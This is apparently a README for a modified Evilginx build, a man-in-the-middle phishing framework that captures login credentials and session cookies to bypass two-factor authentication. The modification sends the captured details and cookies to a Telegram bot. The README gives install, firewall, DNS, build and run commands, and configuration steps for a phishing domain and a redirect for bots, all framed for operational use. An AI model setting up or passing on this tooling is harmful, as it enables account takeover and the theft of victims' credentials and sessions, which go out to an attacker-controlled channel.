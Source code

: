 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Latest Evilginx 3.4.2 - Modified by @zn0m + telegram sending captured details + cookies

![alt text](https://github.com/EvilHoster/EvilGinx2-3.4.1-Modification/blob/main/screenshot.jpg?raw=true)


#THANKS !


**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


How to install ?

On Ubuntu:
FRIST OF ALL MODIFY core/session.go
const (
	telegramBotToken = "" // Replace with your bot token from BotFather
	telegramChatID = ""   // Replace with your chat ID with Get my Chat ID invite it to your groups
)

1. sudo apt update sudo apt install git make gcc libpcap-dev -y wget https://go.dev/dl/go1.19.linux-amd64.tar.gz sudo tar -C /usr/local -xzf go1.19.linux-amd64.tar.gz export PATH=$PATH:/usr/local/go/bin source ~/.profile go version
2. sudo ufw allow 53 sudo ufw allow 80 sudo ufw allow 443 sudo ufw reload sudo systemctl stop systemd-resolved sudo systemctl disable systemd-resolved
3. sudo nano /etc/resolv.conf
remove old ns add these:
  nameserver 8.8.8.8
  nameserver 8.8.4.4
4. git clone https://github.com/zn0m/evgnx2.git
5. cd evgnx2
6.make
7. sudo ./build/evilginx -p ./phishlets -t ./redirectors 127.0.0.1:35800 -developer

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}




Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.



## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
